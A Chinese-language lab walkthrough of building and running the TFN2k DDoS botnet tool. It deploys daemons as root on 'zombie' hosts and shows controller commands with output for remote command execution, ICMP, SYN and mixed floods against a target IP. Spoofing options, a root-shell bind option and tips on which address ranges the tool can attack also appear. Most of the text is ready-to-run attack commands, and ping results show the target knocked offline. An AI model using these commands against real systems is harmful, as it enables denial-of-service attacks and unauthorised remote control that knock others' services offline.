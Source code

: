 

TFN2k 模拟攻击示例
==================

主要参考[1]

1. 编译

`git clone https://github.com/poornigga/tfn2k`
`cd tfn2k`
`make`

2. 安装

测试环境：
主控端tfn：10.4.3.145
被控端td:
1. 10.4.192.26
2. 10.4.3.117
3. 10.4.3.145  (10.4.3.145既做主控端又做被控端，即主控端自身也是肉鸡)

测试手段：
10.4.3.145指挥10.4.192.26,10.4.3.117,10.4.3.145去攻击10.4.192.25

主控端安装
将td,tfn两程序FTP到主控端（10.4.3.145）的/root
[root@localhost ~]# ls
serverout0.txt  tfn  td

建立host_tfn文件，设立肉鸡地址，包括自身
[root@localhost ~]# cat host_tfn
10.4.192.26     
10.4.3.145      自身
10.4.3.117     

被控端安装
ftp td到各被控端


3. 测试

各被控端起td
[mac@nm ~]$ su                 td必须在root下起
Password:
[root@nm mac]# ./td
[root@nm mac]# ps -ef
UID        PID  PPID  C STIME TTY          TIME CMD
root     24923 24894  1 05:14 pts/1    00:00:00 su
root     24924 24923  6 05:14 pts/1    00:00:00 bash
root     24943     1  0 05:14 pts/1    00:00:00 tfn-daemon
root     24944 24924  0 05:14 pts/1    00:00:00 ps –ef

在主控host也要起肉鸡程序td (即主控端自身也是肉鸡)

telnet 10.4.3.145
连通性测试
在所有肉鸡（包括主控端）td都启动后
在主控端做基本的控制测试
[root@localhost ~]# /root/tfn -f host_tfn -c 10 -i "mkdir testaa"

Protocol      : random
Source IP     : random
Client input  : list
Command       : execute remote command
Password verification:  输入00008421 (此为主控端与各肉鸡的握手密码，是编译时生成的)
Sending out packets: ...
[root@localhost ~]#

在各个肉鸡下都会自动建立一个目录testaa,通常建立在td文件存在的目录下
[root@localhost ~]# ls
host_tfn    td      tfn

[root@vmyu mac]# ls
minilinux  td  testaa  tfn

这证明主控和肉鸡通信正常

正式开始攻击

在主控端执行tfn
[root@localhost ~]# /root/tfn
usage: /root/tfn <options>
[-P protocol]   Protocol for server communication. Can be ICMP, UDP or TCP.
Uses a random protocol as default
[-D n]          Send out n bogus requests for each real one to decoy targets
[-S host/ip]    Specify your source IP. Randomly spoofed by default, you need
to use your real IP if you are behind spoof-filtering routers
[-f hostlist]   Filename containing a list of hosts with TFN servers to contact
[-h hostname]   To contact only a single host running a TFN server
[-i target string]      Contains options/targets separated by '@', see below
[-p port]               A TCP destination port can be specified for SYN floods
<-c command ID> 0 - Halt all current floods on server(s) immediately
1 - Change IP antispoof-level (evade rfc2267 filtering)
    usage: -i 0 (fully spoofed) to -i 3 (/24 host bytes spoofed)
2 - Change Packet size, usage: -i <packet size in bytes>
3 - Bind root shell to a port, usage: -i <remote port>
4 - UDP flood, usage: -i victim@victim2@victim3@...
5 - TCP/SYN flood, usage: -i victim@... [-p destination port]
6 - ICMP/PING flood, usage: -i victim@...
7 - ICMP/SMURF flood, usage: -i victim@broadcast@broadcast2@...
8 - MIX flood (UDP/TCP/ICMP interchanged), usage: -i victim@...
9 - TARGA3 flood (IP stack penetration), usage: -i victim@...
10 - Blindly execute remote shell command, usage -i command

-c 10是执行一条指令
-c 4,5,6,7,8,9 是5种DOS攻击
-c 0 是关闭攻击

example:
[root@localhost ~]# /root/tfn -f host_tfn -c 6 -i 10.4.192.25 
从主控端指挥host_tfn内定义的肉鸡向10.4.192.25发动icmp ping 攻击
Protocol      : random
Source IP     : random
Client input  : list
Target(s)     : 10.4.192.25
Command       : commence icmp echo flood
Password verification: 输入00008421
Sending out packets: ...


过2分钟左右，ping 10.4.192.25就ping不通了
[root@localhost ~]# ping 10.4.192.25
PING 10.4.192.25 (10.4.192.25) 56(84) bytes of data.

--- 10.4.192.25 ping statistics ---
16 packets transmitted, 0 received, 100% packet loss, time 14998ms

关闭攻击
[root@localhost ~]# /root/tfn -f host_tfn -c 0
Protocol      : random
Source IP     : random
Client input  : list
Command       : stop flooding
Password verification:  00008421
Sending out packets: ...

关闭攻击后，被攻击主机有可能会恢复通信，也有可能仍不能通信（必须重起），即被“攻死了”
[root@localhost ~]# ping 10.4.192.25
PING 10.4.192.25 (10.4.192.25) 56(84) bytes of data.
From 10.4.3.145 icmp_seq=2 Destination Host Unreachable
From 10.4.3.145 icmp_seq=3 Destination Host Unreachable
From 10.4.3.145 icmp_seq=4 Destination Host Unreachable
From 10.4.3.145 icmp_seq=6 Destination Host Unreachable
From 10.4.3.145 icmp_seq=7 Destination Host Unreachable
From 10.4.3.145 icmp_seq=8 Destination Host Unreachable

--- 10.4.192.25 ping statistics ---
10 packets transmitted, 0 received, +6 errors, 100% packet loss, time 8998ms
, pipe 3

[root@localhost ~]# ping 10.4.192.25
PING 10.4.192.25 (10.4.192.25) 56(84) bytes of data.
64 bytes from 10.4.192.25: icmp_seq=14 ttl=126 time=308 ms
64 bytes from 10.4.192.25: icmp_seq=15 ttl=126 time=361 ms
64 bytes from 10.4.192.25: icmp_seq=16 ttl=126 time=169 ms


TFN发动的攻击包括：UDPflood（-c 6)、TCP SYN flood(-c 5) 、ICMPreply flood(-c 7)

SYN/TCP攻击并设攻击端口（假设对方是WWW SERVER）
#./tfn　-f　hosts.txt　-c　5　-i　192.168.111.88　-p　80


ICMP/TCP/UDP轮流攻击：
#./tfn　-f　hosts.txt　-c　8　-i　192.168.111.88
会按TCP/UDP/ICMP的轮替方式发攻击包。

tfn 发起攻击，如果目标不可达，比如没路由，PING不通等，他没有任何显示，就是tcpdump下不发包

tfn 只能对IP地址前两个数字至少有一个>100的地址发攻击，即tfn无法攻击10.1.1.1 这是反复实验得来的。
一开始发现在192地址下发起攻击有效，但在10的地址下发起攻击无效，


[1]: http://blog.sina.com.cn/s/blog_6151984a0100exma.html

